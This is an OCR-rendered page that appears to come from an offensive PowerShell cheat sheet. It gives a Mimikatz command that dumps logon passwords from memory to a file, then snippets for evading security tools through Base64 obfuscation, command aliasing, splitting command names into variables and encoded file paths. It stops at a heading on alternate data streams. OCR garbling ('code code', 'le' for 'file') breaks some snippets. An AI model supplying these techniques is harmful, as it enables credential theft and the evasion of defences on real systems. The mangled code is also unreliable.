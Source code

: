 ### Extracting System Secrets with Mimikatz
Uses Mimikatz to extract logon passwords and other sensitive data from system memory.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' | Out-File -FilePath C:\temp\logonpasswords.txt
```

### String Obfuscation

Obfuscates a string (e.g., a command) using Base64 encoding to evade detection by security tools.

```powershell
$originalString = 'SensitiveCommand'; $obfuscatedString =
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($originalString)); $decodedString =code code
[System.Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($obfuscatedString)); Invoke-code
Expression $decodedStringcode
```

### Command Aliasing

Creates an alias for a PowerShell command to disguise its true purpose, which can be useful in evading script analysis.

```powershell
$alias = 'Get-Dir'; Set-Alias -Name $alias -Value Get-ChildItem; Invoke-Expression $alias
```

### Variable Name Obfuscation

Obfuscates a command by splitting it into parts and reassembling it, making the command less recognizable to security tools.

```powershell
$o = 'Get'; $b = 'Process'; $cmd = $o + '-' + $b; Invoke-Expression $cmd
```

### File Path Obfuscation

Obfuscates a le path using Base64 encoding, making it harder to detect malicious le paths or commands.

```powershell
$path =
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('QzpcVGVtcFxBZG1pblRvb2xz'));
Invoke-Item $path
```


### Using Alternate Data Streams for Evasion

Hides malicious commands or data in alternate data streams of les, which is a method often used to evade detection.
